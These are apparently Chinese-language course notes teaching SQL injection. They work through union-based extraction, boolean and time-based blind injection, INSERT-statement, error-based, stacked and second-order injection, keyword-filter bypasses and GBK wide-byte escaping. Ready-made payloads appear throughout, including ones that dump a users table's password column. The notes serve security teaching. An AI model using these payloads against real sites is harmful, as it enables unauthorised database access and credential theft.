



# Web-1 注入

> 授课：褚翰泽（OverJerry）

## SQL基础

```SQL
mysql –u root –p
mysql> SHOW DATABASES;  /*输出所有的数据库*/
mysql> USE db_name;  /*使用某个其中一个数据库*/
mysql> SHOW TABLES;  /*显示数据库中的表*/
mysql> SHOW COLUMNS FROM table_name; /*输出列*/
```

+ SELECT语句的结构

    ```SQL
    SELECT field1, field2,...fieldN (FROM table_name1, table_name2... [WHERE condition1 [AND [OR]] condition2...)
    ```

    Examples:

    ```SQL
    SELECT SLEEP(2);
    
    SELECT 1, DATABASE(), VERSION(), USER(), ASCII('A'), CONCAT('A','B');
    ```

+ 关于注释

    ```SQL
    /*
    这是注释，支持多行
    */
    
    -- 这也是注释(注意后面有个空格)
    
    # 这还是注释 
    
    /*!version_number 当数据库版本大于version_number(或version_number为空)时注释内容会被执行，否则就是普通注释*/
    
    ```

+ 一些SELECT的其他例子

    ```SQL
    SELECT col_name FROM table_name /*从特定表中获取特定列*/

    SELECT * FROM table_name /*从特定表中获取全部列*/

    SELECT * FROM table_name WHERE col_name = XXX /*在限定条件下取数据*/ 

    SELECT * FROM table_name ORDER BY col_name(col_index) /*根据列名或索引排序*/

    SELECT col_name1, col_name2… FROM table_name LIMIT N, M  /*从第N(从0开始)条开始返回M条数据*/

    SELECT col_name1, col_name2… FROM table_name LIMIT M OFFSET N  /*也可以这么写*/

    SELECT concat(col_name1, col_name2…) FROM table_name /*整合列数据*/

    SELECT group_concat(col_name1, col_name2…) FROM table_name /*整合行、列数据*/
    ```

+ 一些常用的URL编码：
    - Space: %20
    - \#: %23
    - ': %27
    - ": %22
    - +: %2B
    - \# + $ - _ . ! * ( ) 浏览器地址栏默认不编码，但是不意味着不能编码

## SQL注入

### 直接回显的SQL注入

#### 网站架构分析




#### SQL注入的判断

根据网站功能，猜测可能的SQL语句

```SQL
SELECT col_name(…) FROM table_name WHERE id = {}       /*数字型*/
SELECT col_name(…) FROM table_name WHERE id = '{}'     /*字符型*/
```

存在注入->SQL语句可以以一种“意料之外”的方式被解析

而最简单的“意料之外”就是把他搞坏

+ 传入全部各种特殊字符 '"~!@#$%^&*()`

    ```SQL
    SELECT col_name(…) FROM table_name WHERE id = '"~!@#$%^&*()`;     /*数字型*/
    ```

    ```SQL
    SELECT col_name(…) FROM table_name WHERE id = ''"~!@#$%^&*()`';   /*字符型*/
    ```

+ 不管内部结构怎么样，这样肯定能出错，**检测效率高**

判断到底是数字型还是字符型

+ 传入id=2-1

    - 如果是数字型，语句应该变为：

    ```SQL
    SELECT col_name(…) FROM table_name WHERE id = 2-1 
    ```
    等价于：
    ```SQL
    SELECT col_name(…) FROM table_name WHERE id = 1
    ```
    那么就应该能正常返回id=1的页面

    - 而如果是字符型，语句应该变为：

    ```SQL
    SELECT col_name(…) FROM table_name WHERE id = '2-1'
    ```

    会查询不到内容

此刻，我们已经收集到的信息有:

1. 内部SQL语句的结构
2. 服务端的基本响应逻辑

那么，怎么继续获取信息呢？

+ 借助联合查询:

```SQL
SELECT field1, …, fieldN FROM table_name UNION SELECT field1*, …, fieldN* FROM table_name*;
```

+ 我们可以尝试传入`id=1 UNION SELECT {secret_data}` 从而使拼接的SQL语句变为：

```SQL
SELECT col_name(…) FROM table_name WHERE id = 1 UNION SELECT {secret_data};
```

+ 这样，联合查询就会覆盖SQL查询的结果，并借助PHP代码实现的HTML嵌入，将我们想要的信息嵌在页面里传回来！

由于联合查询前后的列数必须一致，我们也要判断原SQL查询的列数

+ 我们可以尝试构造

```SQL
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 1 ORDER BY M;
```

+ $M \leq N$时，能有正常的返回，$M > N$时会报错，从而可以判断查询的列数
+ 当然，也可以一个个试

```SQL
SELECT col_name1,…, col_nameN FROM table_name WHERE id = 1 UNION SELECT 1, 2,…;
```

#### 数据获取

现在我们以及可以利用MySQL函数直接获取一些信息了

```SQL
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT DATABASE(), USER(),  "https://www.zju.edu.cn/_upload/tpl/0b/bf/3007/template3007/static/media/logo.e85b920df15a055ad9bc.png";
```

但是，由于我们不知道表名、列名，我们无法获取更多的数据

幸运的是，MySQL 的默认库`information_schema`中存放了这些信息。当然，这个技巧只能在 MySQL 中使用

+ 在MySQL中，所有的数据库名存放在`information_schema.schemata`的`schema_name`字段下

    ```SQL
    SELECT schema_name FROM information_schema.schemata;
    ```

+ 所有的表名存放在`information_schema.tables`的`table_name`字段下，可以以`table_schema`为条件筛选

    ```SQL
    SELECT table_name FROM information_schema.tables WHERE table_schema='db_name';
    ```

+ 所有的列名存放在`information_schema.columns`的`column_name`字段下，可以以`table_schema`和`table_name`为条件筛选

    ```SQL
    SELECT column_name FROM information_schema.columns WHERE table_name='table_name' AND table_schema='db_name';
    ```

可以构造
```SQL
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT group_concat(schema_name), 2, 3 FROM information_schema.schemata;
```

获取所有数据库信息，以此类推

```SQL
获取到表、列名后，可以获取其他数据。这里以users表中的passwd字段为例
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT group_concat(passwd), 2, 3 FROM users;
```

如果想要分行获取，也可以借助LIMIT

```SQL
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT passwd, 2, 3 FROM users LIMIT 0, 1;
```

### 无回显的SQL注入



#### 判断注入点

根据网站功能，可能的SQL语句仍然是SELECT，而且只能是字符型

```SQL
SELECT col_name(…) FROM table_name WHERE username = '{}'
SELECT col_name(…) FROM table_name WHERE username = "{}"
```

验证猜想

+ 传入`uname='`

    ```SQL
    SELECT col_name(…) FROM table_name WHERE username = ''' /*报错*/
    ```

+ 而uname="时

    ```SQL
    SELECT col_name(…) FROM table_name WHERE username = '"' /*不报错*/
    ```

说明是单引号闭合

#### 一些SQL注入方法

传入`uname=a' or {condition}#` 可以让语句变为

```SQL
SELECT col_name(…) FROM table_name WHERE username = 'a' or {condition}#'
```

这样，当且仅当`statement`为真时，`username='a' or {condition}`才可能为真，返回`User Found`，否则必为`Not Found`(因为不存在`username='a'`的数据)。既，我们可以获取`{condition}`的结果！

用and语句构造也是同理

`SUBSTR(str, pos, len)` 可截取字符串

+ `str`参数代表待截取的字符串
+ `pos`参数代表从什么位置开始截取(下标从1开始)
+ `len`参数表示字符串截取的⻓度

`ASCII(char)`将字符转为ASCII码

那么，我们用`SUBSTR()`一位位取出要查找内容的字符，再用`ASCII()`转化为ASCII码，就能用二分法获取数据了

??? 例子
    ```SQL
    SELECT col_name(…) FROM table_name WHERE username = 'a' or ASCII(SUBSTR(DATABASE(), 1, 1))>0#'
    SELECT col_name(…) FROM table_name WHERE username = 'a' or ASCII(SUBSTR((SELECT GROUP_CONCAT(passwd) FROM users), 1, 1))>0#'
    ```



**利用延时**

`IF(condition, expr1, expr2)`
如果`condition`为真就执行`expr1`，反之执行`expr2`

和`SLEEP()`配合，就能通过测量响应时间来获取数据！

??? 例子
    ```SQL
    SELECT col_name(…) FROM table_name WHERE username = 'admin' and IF(ASCII(SUBSTR(DATABASE(), 1, 1))>0, SLEEP(0), SLEEP(2))#'
    ```
    如果延时超过2秒，说明条件为假，反之为真

### 特殊的SQL注入

#### 是否有可能注入INSERT, UPDATE, DELETE语句？

假设某用户注册场景，username/email/password分别用POST参数`uname`&`email`&`passwd`传入

```SQL
INSERT INTO `users` VALUES (100, '{username}', '{email}', '{password}');
```

在不知道SQL语句结构的情况下，最保险的方案是时间盲注，只需简单闭合即可

传入`uname='='' AND IF({condition}, SLEEP(0), SLEEP(5)) AND ''='&email=a&passwd=b` 

语句变为

```SQL
INSERT INTO `users` VALUES (100, ''='' AND IF({condition}, SLEEP(0), SLEEP(5)) AND ''='', 'a', 'b');
```

如果已经知道INSERT语句的结构，我们可以直接篡改后续的插入内容

传入`uname=', DATABASE(), '')#&email=a&passwd=b` 

语句变为

```SQL
INSERT INTO `users` VALUES (100, '', DATABASE(), '')#', 'a', 'b');
```

注册用户的email栏会直接展示数据库名

#### 一个仅限MySQL的技巧

传入`uname=0'|CONV(HEX(SUBSTR(USER(),1, 8)),16, 10)|'0&email=a&passwd=b`

```SQL
INSERT INTO `users` VALUES (100, '0'|CONV(HEX(SUBSTR(USER(),1, 8)),16, 10)|'0', 'a', 'b');
```

将结果转换回字符即可`UNHEX(CONV(res, 10, 16))`

`UPDATE`语句也是同理。`DELETE`一般没有回显的渠道所以还是只能用延时注入。

#### 报错注入(MySQL环境下)

核心思想就是让我们要查询的信息输出到报错信息中去

`EXTRACTVALUE(xml_document,Xpath_string)`

使⽤Xpath格式的字符串从`xml_document`中获得内容，Xpath格式(一般为/a/b/…)错误就会报错，报错信息中会输出`Xpath_string`

那么我们可以刻意构造错误的`Xpath_string`和我们想要查询的数据拼接

比如，只要查询中执行了 `EXTRACTVALUE(1,CONCAT(0x7e,DATABASE(),0x7e))` 就必定报错(0x7e是~的编码)，`DATABASE()`会作为Xpath的一部分出现在报错信息中

这个技巧可以用在任何回显报错信息的场景中。同理还有很多其他的MySQL可用的报错注入函数。

#### 堆叠注入

很多数据库是支持多个SQL指令在一行内执行的。不过，服务端语言可能不会获取多行结果。
比如PHP常用的`mysqli->query()`方法只会执行一条指令。要执行多条必须用`mysqli_multi_query()`方法，使用场景比较少见。

不过，一旦发现了一个堆叠注入就约等于发现了一个RCE，危害极大。

常见的闭合判断方法：`;select sleep(1);#`
如果有延时说明后续指令被执行了。

#### 二次注入

对数据进行转义是为了防止SQL语句执行时出现问题，存储的原始数据并没有转义。

那么，如果某个数据被存入时携带了恶意的SQL语句，由于存入操作进行了良好的转义没有造成注入，但是服务端的其他功能读取这串数据用于拼接SQL语句时没有转义，可能也会造成注入。

### SQL注入原理总结

+ SQL注入产生在服务端运行的编程语言和SQL服务器的边界上
+ SQL注入的本质是构造一条产生有效信息输送的信息链！

### SQL注入的绕过

常见防护方法：

+ 直接拦截
+ 关键字替换
+ 编码转义
+ 参数化查询

检测方式：

+ 关键字匹配(直接查找/正则)
+ 语义匹配

**基本思路**：针对关键字/正则匹配

+ 大小写
+ 利用等价命令 比如 OR->||, SPACE->/**/, ORDER BY->GROUP BY …
+ 如果只是单纯删去关键字，且只删一次，可以嵌套绕过，比如`UNION`是关键字会被删除，那么传入`UNUNIONION`就会被删成`UNION`，从而注入

针对语义匹配

+ 相对难度较大，只能利用语言特性把语义检测绕晕。常见办法是嵌套注释符让其以为全部内容都被注释了。

奇技淫巧：

+ 超长字符串绕过
+ 多次编码(需要服务端有相应解码功能)
+ %00截断/换行截断
+ 改变请求方式 `GET`->`POST`, `?a=1` -> `/a/1`

对于直接编码转义或是参数化查询基本无能为力的，无法逃逸=无法注入。

不过，如果数据库使用的是GBK编码，而服务端只采用`addslashes()`方法进行转义，可能造成逃逸。比如`addslashes("%df'")="%df\'"` 传给SQL服务器时十六进制编码为 `df 5c 27`  

而在GBK编码下，`df 5c`是汉字`運`的编码，最后这段字符会被数据库理解为`運`'，导致转义失效，单引号逃逸。这种技巧被称为宽字节注入。

### 一些其他注入漏洞的例子

+ XXE: XML external entity attack

    比如这段XML发送给某个API后，服务器会解析XML的内容，并返回一个HTML页面。

+ SSRF: Server-side request forgery

    诱导服务端对非预期的地址作网络请求，从而获取部分内网信息

## 总结

Web漏洞挖掘的关键：

+ 全面的信息收集
+ 完整的功能分析
+ 清晰的利用逻辑
+ 丰富的知识储备
+ 更重要的是耐心！
